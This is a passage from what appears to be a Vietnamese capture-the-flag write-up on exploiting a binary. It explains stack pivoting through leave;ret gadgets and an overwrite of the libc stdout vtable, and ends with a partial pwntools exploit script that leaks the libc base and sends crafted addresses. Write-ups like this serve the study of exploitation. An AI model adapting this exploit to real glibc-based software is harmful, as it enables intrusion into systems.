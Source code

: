![here](/assets/images/check.png)


- lúc này vì ta nhảy về ```main+54``` nên nó sẽ không thay đổi rbp sau mỗi lần , ý tưởng của ta sẽ là pivot về payload mà ta sẽ kiểm soát , trước hết ta cần ghi ```saved_rbp``` thứ hai vào (thứ mà ta có thể kiểm soát là payload của inp nên ta sẽ ghi vào địa chỉ của inp) 
- ở đây ta cần suy nghĩ , khi nó leave_ret thì nó sẽ nhảy về ```rbp+8``` đúng chứ? vậy nếu muốn nó nhảy về ```saved_rbp_2``` của ta vừa setup thì ta chỉ cần cần setup ```stdout+8``` sẽ là 1 leave_ret và nó sẽ nhảy đến ```inp```
- 1 điều nữa là ta cần tới 2 ```leave_ret``` , vì sao? vì khi nhảy về ```inp``` thì ta vừa ghi rồi , ta muốn nó jmp tới ```inp+8``` thì ta phải setup 1 leavet_ret nữa mới thành công , cuối cùng là 1 rop_chain orw thôi


exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

context.binary = exe

p = process()
p.recvuntil(b'0x')
libc.address = int(p.recvline()[:-1], 16) - libc.sym['puts']
log.info(hex(libc.address))
stdout = libc.address + 0x3c5620
stdout_IO_file_jumps = stdout + 0xd8

payload = p64(exe.sym['main'] + 54)
p.sendline(payload)

p.sendline(f'{stdout_IO_file_jumps}'.encode())
input()
p.sendline(f'{exe.sym["inp"]-0x38}'.encode())

payload = p64(exe.sym['main'] + 54)
p.sendline(payload)
p.sendline(f'{stdout}'.encode())
```